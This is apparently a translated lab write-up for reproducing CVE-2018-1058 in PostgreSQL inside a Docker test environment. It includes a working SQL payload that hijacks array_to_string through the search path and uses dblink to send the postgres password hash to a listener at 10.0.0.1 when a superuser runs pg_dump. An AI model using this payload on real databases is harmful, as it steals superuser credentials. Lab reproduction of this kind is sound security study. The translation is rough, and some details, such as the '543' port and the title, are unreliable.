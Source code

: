 # PostgreSQL Elevation of Effort (CVE-2018-1058)

PostgreSQL is a relational database. There is a logic error in the 9.3 to 10 version that causes the superuser to unscrupulously trigger malicious code created by ordinary users, causing some unpredictable operations.

Reference link:

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## vulnerability environment

Start a vulnerable environment:

```
Docker-compose up -d
```

After the environment is started, the default 543 port of the PG will be enabled locally.

## Vulnerability recurrence

Referring to the second use of the above link, we first log in to postgres as the normal user `vulhub:vulhub`: `psql --host your-ip --username vulhub`

![](1.png)

Execute after executing the following statement:

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    Select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

Then I listened to port 5433 on `10.0.0.1` and waited for the superuser to trigger the "back door" we left.

(Pretend to be a superuser) Under the shooting range machine, execute the `pg_dump` command as the superuser: `docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub` to export the contents of the vulhub database.

While executing the above command, the "back door" has been triggered, and the sensitive information has been received on the `10.0.0.1` machine:

![](2.png)

The above process is only a way to use the vulnerability. It may be a bit messy when it comes to machines. It is recommended that readers read the articles in the reference link to get more usage.